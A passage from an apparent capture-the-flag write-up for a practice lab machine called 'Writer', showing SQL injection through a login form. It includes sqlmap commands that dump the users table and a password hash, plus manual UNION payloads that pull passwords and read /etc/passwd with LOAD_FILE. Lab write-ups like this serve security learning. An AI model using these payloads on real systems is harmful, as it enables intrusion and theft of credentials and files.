 ![obraz](https://github.com/user-attachments/assets/0182ea85-2fca-4247-8534-7230c39e4ec3)

Now we want to find table names in "Writer" database:  
```
sqlmap -r req.txt -D writer --tables --batch
```

![obraz](https://github.com/user-attachments/assets/79fd6d8d-43d1-441d-861b-78818c587b34)

Users table will most likely contain password hash which is a thing of interest ofc.  
```
+----+------------------+----------+----------------------------------+----------+--------------+
| id | email            | status   | password                         | username | date_created |
+----+------------------+----------+----------------------------------+----------+--------------+
| 1  | admin@writer.htb | Active   | 118e48794631a9612484ca8b55f622d0 | admin    | NULL         |
+----+------------------+----------+----------------------------------+----------+--------------+
```
```
sqlmap -r req.txt -D writer -T users --dump --batch
```

![obraz](https://github.com/user-attachments/assets/5575885c-496a-4083-9398-8122021561a4)

Unfortunately this hash is uncrackable.  

It could be done manually too of course, here's how to do it:  
```
uname=test' UNION select 1,password,3,4,5,6 from users-- -&password=test
```



## SQL - privileges and file read

With sqlmap we can also check privileges, syntax is as follows:  
```
sqlmap -r req.txt --privileges
```

![obraz](https://github.com/user-attachments/assets/253f5fbb-1b00-4172-8ba7-bc09e76887ec)

![obraz](https://github.com/user-attachments/assets/764d8528-7fd3-447e-a5ad-717d7c602f85)

We have "FILE" privilege.  
It allows us to write and read files.
I tried to write a file but that didn't work, let's try reading a file.  
Payload is as follows:  
```
uname=test' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5,6 -- -&password=test	
```

![obraz](https://github.com/user-attachments/assets/3b1d0cff-30b2-4022-b473-feaa69743bd1)

Then I tried to look for low hanging fruits which are ssh keys of each "real" user.  
It didn't work, meaning we have to enumerate the system.  
From nmap we know that the website runs apache2.  
We can try to look for apache config files:  
+  /etc/apache2/apache2.conf (nothing intresting)
+  /etc/apache2/sites-available/000-default.conf
